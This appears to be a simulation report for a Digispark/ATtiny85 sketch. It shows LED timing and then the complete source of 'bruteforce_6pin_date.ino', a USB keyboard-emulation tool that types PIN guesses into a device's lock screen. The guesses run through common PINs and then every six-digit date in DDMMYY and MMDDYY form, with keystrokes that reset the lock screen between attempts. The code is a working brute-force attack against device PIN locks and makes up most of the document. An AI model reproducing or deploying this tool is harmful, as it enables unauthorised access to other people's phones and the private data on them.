
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 1.7 s.
At 4.3 s:

Timing chart, 0 to 8.5 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_PIN): alternates HIGH for 1.7 s and LOW for 2.0 s

The sketch:

bruteforce_6pin_date.ino
```cpp
#include <DigiKeyboard.h>

#define ATTEMPT_DELAY     2000        // Delay between attempts (in milliseconds)
#define KEYSTROKE_DELAY   200         // Delay between each digit keystroke (in milliseconds)
#define USE_ENTER         false       // Whether to press Enter after the PIN (not used here)

#define LED_PIN           1           // P1 is usually the built-in LED on Digispark

#define KEY_BACKSPACE 0x2A  // HID keycode for Backspace
#define KEY_UP        0x52  // HID keycode for Arrow Up


/**
 * Sends a given PIN as keystrokes via DigiKeyboard, simulating user input.
 * After typing the PIN, it sends a shortcut (Windows key + Backspace) to return to the home screen,
 * which helps reset the state if the wrong PIN was entered.
 */
void typePin(const char* pin) {
  digitalWrite(LED_PIN, HIGH);                // Turn on LED to indicate typing activity
  DigiKeyboard.sendKeyStroke(0);              // Clear any existing modifiers

  for (byte i = 0; pin[i] != '\0'; i++) {
    DigiKeyboard.print(pin[i]);               // Send each digit
    DigiKeyboard.delay(KEYSTROKE_DELAY);      // Delay between digits
  }

  if (USE_ENTER) {
    DigiKeyboard.sendKeyStroke(KEY_ENTER);    // Optionally press Enter after PIN
  }

  // Send Windows key + Enter to simulate returning to the home screen
  // DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_GUI_LEFT);

  // Send Windows key + Backspace to reset to home screen
  DigiKeyboard.sendKeyStroke(KEY_BACKSPACE, MOD_GUI_LEFT);


  DigiKeyboard.delay(500); // Small delay before next command

  // Send Arrow Up to simulate swipe up gesture (bring up PIN entry again)
  DigiKeyboard.sendKeyStroke(KEY_UP);


  digitalWrite(LED_PIN, LOW);                 // Turn off LED to indicate attempt is done
  DigiKeyboard.delay(ATTEMPT_DELAY);          // Wait before the next attempt
}

void setup() {
  pinMode(LED_PIN, OUTPUT);
  digitalWrite(LED_PIN, LOW);

  DigiKeyboard.delay(1000);                   // Initial delay after device is plugged in


  // Send Windows key + Backspace to reset to home screen
  DigiKeyboard.sendKeyStroke(KEY_BACKSPACE, MOD_GUI_LEFT);

  DigiKeyboard.delay(500); // Small delay before next command

  // Send Arrow Up to simulate swipe up gesture (bring up PIN entry)
  DigiKeyboard.sendKeyStroke(KEY_UP);
  DigiKeyboard.delay(2000);                    // Small delay before next command


  // List of most commonly used PINs to try first
  const char* commonPins[] = {
    "000000", "111111", "222222", "123456", "654321",
    "112233", "121212", "123123", "000123", "999999"
  };

  for (byte i = 0; i < sizeof(commonPins) / sizeof(commonPins[0]); i++) {
    typePin(commonPins[i]);
  }


  // Auto-generated PINs using common date formats: DDMMYY and MMDDYY
  char pin[7]; // 6 digits + null terminator

  for (byte year = 0; year <= 99; year++) {
    for (byte month = 1; month <= 12; month++) {
      byte maxDay = 31;

      if (month == 2) maxDay = 28;                // February (non-leap years)

      else if (month == 4 || month == 6 || month == 9 || month == 11) maxDay = 30;          // Months with 30 days

      for (byte day = 1; day <= maxDay; day++) {
        sprintf(pin, "%02d%02d%02d", day, month, year);         // Format as DDMMYY
        typePin(pin);

        sprintf(pin, "%02d%02d%02d", month, day, year);         // Format as MMDDYY
        typePin(pin);
      }
    }
  }
}

void loop() {
  // Nothing happens in loop; all work is done in setup()
}
```
